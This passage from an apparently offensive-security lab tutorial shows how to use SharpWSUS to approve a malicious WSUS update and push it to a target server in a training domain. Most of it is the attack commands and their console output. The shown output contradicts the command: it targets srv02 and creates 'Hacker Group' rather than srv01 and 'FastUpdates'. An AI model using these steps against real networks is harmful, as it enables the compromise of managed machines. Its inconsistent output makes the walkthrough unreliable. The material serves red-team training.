 </div>
<h3>Approve the malicious patch for deployment with SharpWSUS</h3>
<p>To approve the malicious patch, we need to specify the computers which this patch will apply to and associate those computers with a group. We can achieve all this with <code>SharpWSUS</code> by using the command the previous output gave us. That output has the update ID that corresponds to the update we created, it is important to make sure that we are using the right update ID. We need to use <code>SharpWSUS.exe approve</code> with the option <code>/updateid:&lt;update ID&gt;</code>, set the target computer with the option <code>/computername:&lt;Target Computer&gt;</code>, we are going to target <code>SRV01</code> and finally set the new group to be created with the option <code>/groupname:&lt;Group Name&gt;</code>:</p>
<pre><code class="language-powershell-session">c:\Tools&gt; .\SharpWSUS.exe approve /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv01.inlanefreight.local /groupname:"FastUpdates"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Approve Update

Targeting srv02.inlanefreight.local
TargetComputer, ComputerID, TargetID
------------------------------------
srv02.inlanefreight.local, d4e385a2-01e1-444f-b856-f857b8989b43, 1
Group Exists = False
Group Created: Hacker Group
Added Computer To Group
Approved Update

[*] Approve complete
</code></pre>
<p>The tool will inform us if the group is already present before attempting to create it; if no other group exists with that name, the update will be approved and the group created. We can inspect again to confirm the <code>WSUS</code> groups:</p>
<pre><code class="language-powershell-session">c:\Tools&gt; .\SharpWSUS.exe inspect

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Inspect WSUS Server

... SNIP ...

####################### Group Enumeration #######################
GroupName
---------------------------------------------------
All Computers
Downstream Servers
FastUpdates
Unassigned Computers

